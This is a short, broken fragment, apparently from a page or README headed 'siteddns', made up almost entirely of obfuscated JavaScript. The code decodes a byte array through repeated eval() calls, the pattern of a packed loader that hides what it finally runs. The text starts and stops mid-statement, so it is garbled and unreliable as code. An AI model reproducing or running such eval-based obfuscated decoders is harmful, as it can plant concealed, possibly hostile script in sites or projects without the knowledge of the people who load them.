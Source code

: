  # siteddns
=3;){cj[ej]=(((-((cj[ej]+252)&0xff))&0xff)+147)&0xff;ej--;}";eval(ej);ej="ej=2;while(true){if(ej>49)break;cj[ej]=(cj[ej]-cj[ej+1])&0xff;ej++;}";eval(ej);ej="ej=1;do{if(ej>50)break;cj[ej]=(~((~cj[ej])&0xff))&0xff;cj[ej]=(-cj[ej])&0xff;ej++;}while(true);";eval(ej);dj="";for(ej=1;ej
